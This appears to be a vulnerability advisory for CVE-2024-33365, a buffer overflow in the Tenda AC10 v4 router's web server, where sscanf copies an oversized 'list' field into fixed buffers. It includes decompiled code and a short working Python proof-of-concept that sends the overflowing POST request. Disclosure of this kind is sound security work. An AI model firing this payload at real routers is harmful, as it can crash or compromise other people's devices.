

# Buffer Overflow in Virtual_Data_Check

## Affected model(s) and firmware/software version(s)

Product: Tenda - AC10 v4

Version: US_AC10V4.0si_V16.03.10.20_cn

Binary: `/bin/httpd`

## Vulnerability description and potential impacts

In `formSetVirtualSer`, it reads value of key `list` upto 0x200 bytes and passed as argument to function `Virtual_Data_Check`:

```c
memset(acStack_514, 0, 0x100);
memset(auStack_414, 0, 0x201);
memset(auStack_210, 0, 0x201);
iVar1 = websSafeGetVar(param_1, 0xcc, "list", & DAT_004fb6b8, auStack_414);
if (iVar1 == 1) {
    printf("Error: Get WEB value failed, idx[%d],var[%s]\n", 0xcc, & DAT_004fb6bc);
    websTransfer_errCode(param_1, 1);
} else {
    memcpy(auStack_210, auStack_414, 0x201);
    iVar1 = Virtual_Data_Check(auStack_210);
    if (iVar1 == 0) {
        save_virtualser_data("adv.virtualser", auStack_414, 0x7e);
```

In `Virtual_Data_Check`, it uses sscanf with format string `%[^,]` and `%s` to parse from param1 to 4 local variables. But the `list` can take upto 0x200, which will cause buffer overflow:

```c
undefined4 Virtual_Data_Check(char * param_1)
{
    ...
    local_198 = param_1;
    if ( * param_1 == '\0') {
        uVar3 = 0;
    } else {
        while (pcVar4 = strchr(local_198, L '~'), pcVar4 != 0x0) {
            ...
        }
        iVar5 = sscanf(local_198, "%[^,],%[^,],%[^,],%s", & local_168, & local_138, & local_128, & local_118);
        ...
    }
    return uVar3;
}
```

## Step-by-step instructions to reproduce the issue

- Step 1: Run httpd
- Step 2: Run the script in the next section with first argument is ip of server

## Proof-of-concept (PoC) or exploit code for the issue

```python
#!/usr/bin/python3

import sys
import requests

payload = b'2,'*3
payload = payload.ljust(0x200, b'A')

def run():
    url = f"http://{sys.argv[1]}/goform/SetVirtualServerCfg"
    data = {
        'list': payload,
    }
    res = requests.post(url=url,data=data)

run()
```



## Any suggested solutions to fix this

Reduce max size in `websSafeGetVar` for "list"

## Severity (e.g. CVSS v3.x)

Buffer Overflow, possible command injection

## Acknowledgement

Cao Ngoc Quy, Nguyen Huu Tri and Nguyen Le Quoc Anh of bl4ckh0l3 from Galaxy One

## Assigned CVE

CVE-2024-33365
